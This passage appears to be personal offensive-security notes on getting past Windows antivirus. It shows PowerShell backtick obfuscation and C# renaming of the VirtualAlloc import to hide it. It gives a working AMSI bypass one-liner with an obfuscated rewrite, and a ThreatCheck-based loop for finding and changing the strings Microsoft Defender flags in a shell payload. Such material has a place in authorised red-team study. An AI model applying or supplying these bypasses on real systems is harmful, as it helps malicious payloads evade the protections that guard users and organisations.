- Misc
   - PowerShell
      - Properties of an object
         - Can be obfuscated with backticks `$notify.icon` to ```$notify."i`c`on"```
   - C#
     - Changing the variable type (i.e list vs array) 
     - Rename your entrypoints
        -  https://learn.microsoft.com/th-th/dotnet/framework/interop/specifying-an-entry-point#renaming-a-function-in-c-and-c\
```
[DllImport("kernel32")]
	private static extern IntPtr VirtualAlloc(
	UInt32 lpStartAddr, 
	UInt32 size, 
	UInt32 flAllocationType, 
	UInt32 flProtect);

[DllImport("kernel32, EntryPoint = VirtualAlloc",
	SetLastError = false, ExactSpelling = true)]
	private static extern IntPtr SplendidDragon(
	UInt32 lpStartAddr, 
	UInt32 size, 
	UInt32 flAllocationType, 
	UInt32 flProtect);
```

#### Structure of the code
- Change methods and lines of code around. 

#### Example of changing amsi bypass string
```
# Original amsi bypass
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)

# New
$v=[Ref].Assembly.GetType('System.Management.Automation.Am' + 'siUtils'); $v."Get`Fie`ld"('ams' + 'iInitFailed','NonPublic,Static')."Set`Val`ue"($null,$true)
```

### Defeating Microsoft Defender
- Use https://github.com/rasta-mouse/ThreatCheck or https://github.com/matterpreter/DefenderCheck
1. Run Threatcheck ```.\ThreatCheck.exe -f .\shell.exe```
2. Replace string which gets detected.
3. Recompile and check again!
- Also possible to use https://github.com/dobin/avred

### Scanning amsi
#### Threatcheck
- https://github.com/rasta-mouse/ThreatCheck
```
.\ThreatCheck.exe -f .\shell.ps1 -e AMSI
```
